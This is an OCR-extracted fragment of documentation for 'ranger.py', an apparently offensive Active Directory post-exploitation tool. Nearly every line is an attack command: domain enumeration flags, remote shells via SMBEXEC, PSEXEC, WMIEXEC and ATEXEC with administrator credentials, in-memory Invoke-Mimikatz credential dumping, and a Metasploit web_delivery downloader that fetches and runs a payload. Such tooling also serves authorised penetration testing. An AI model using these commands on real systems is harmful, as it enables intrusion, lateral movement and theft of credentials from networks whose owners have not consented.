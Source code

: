 ```
--get-domain-membership
--get-forest-domains
--get-forest
--get-dc
--find-la-access
```

## Command Execution:
### Find Logged In Users:
```
ranger.py [-u Administrator] [-p Password1] [-d Domain] --scout
```
### SMBEXEC Command Shell:
```
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --smbexec -q -v -vv -vvv
```

### PSEXEC Command Shell:
```
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -q -v -vv -vvv
```

### PSEXEC Command Execution:
```
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --psexec -c "Net User" -q -v -vv -vvv
```

### WMIEXEC Command Execution:
```
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec -c "Net User"
```

### WMIEXEC PowerShell Mimikatz Memory Injector:
```
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --invoker
```

### WMIEXEC Metasploit web_delivery Memory Injector (requires Metasploit config see below):
```
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --downloader
```

### WMIEXEC Custom Code Memory Injector:
```
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --wmiexec --executor -c -x "im.ps1" -f "Invoke-Mimikatz -DumpCreds"
```

### ATEXEC Command Execution:
```
ranger.py [-u Administrator] [-p Password1] [-d Domain] [-t target] --atexec -c "Net User" --no-encoder
```

